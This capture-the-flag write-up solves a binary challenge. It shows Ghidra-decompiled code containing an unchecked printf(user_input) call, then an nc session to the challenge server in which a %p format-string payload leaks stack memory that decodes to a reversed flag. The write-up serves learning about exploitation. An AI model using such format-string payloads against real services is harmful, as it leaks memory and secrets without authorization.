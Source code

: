 1. Analyse the file with Ghidra. main() shows this:
```
   FILE *local_c0;
    char local_b8[64];
    char local_78[104];
    long local_10;

    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_c0 = fopen("flag.txt", "r");
    if (local_c0 == (FILE *)0x0) {
        printf("Error in opening the flag file");
    }
    fgets(local_b8, 0x3f, local_c0);
    puts(
        "Welcome to the Armed Detective Agency - the best and most famous detective agency in all of Yokohama!"
    );
    puts(
        "Thank you for coming, future detective! We need your help on this very important and classified mission!"
    );
    puts("A chest full of ability crystals has been lost somewhere in this binary.");
    puts("Can you help us find it? (Y/n)");
    __isoc99_scanf("%DAT_00102178", &local_c1);
    if (local_c1 == 'Y') {
        puts("Aww! We really looked forward to working with you! \\n Have a nice day.");
    }
    else {
        puts("Great! What was your name again?");
        __isoc99_scanf("%DAT_00102184", local_78);
        printf("Looking forward to working with you ");
        printf(local_78);
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        /* WARNING: Subroutine does not return */
        stack_chk_fail();
    }
    return 0;
```

2. From main(), we can see that `printf(local_78)` is a **format string vulnerability** as it should be `printf("%s", local_78)`. So we can use `%p` to print various values from the stack, which is likely where the flag is hidden. 

3. I first tried dumping a bunch of stack positions up to to 20, and then passing the resulting hex output to CyberChef to decode.

```
   └─$ nc 43.205.113.100 8280
    Welcome to the Armed Detective Agency - the best and most famous detective agency in all of Yokohama!
    Thank you for coming, future detective! We need your help on this very important and classified mission!
    A chest full of ability crystals has been lost somewhere in this binary.
    Can you help us find it? (Y/n)
    Y
    Great! What was your name again?
    %20$p.%19$p.%18$p.%17$p.%16$p.%15$p.%14$p.%13$p.%12$p.%11$p.%10$p
    Looking forward to working with you 0x2e70243731252e70.0x243831252e702439.0x31252e7024303225.0x7d736e31406d.0x33725f67406c665f.0x3368745f7475625f.0x6873316e40765f35.0x656974696c696240.0x5f64337463407274.0x58655f3368747b66.0x746369746b616873`
```

Putting it into CyberChef, I got:
![Decoded](image.png)
Aside from the 3 irrelevant values (stack positions 20-18), we can see that there is a reversed flag inside (stack positions 10-17).

4. Remove the front portion and reverse the rest to get the flag:
![Flag](image-1.png)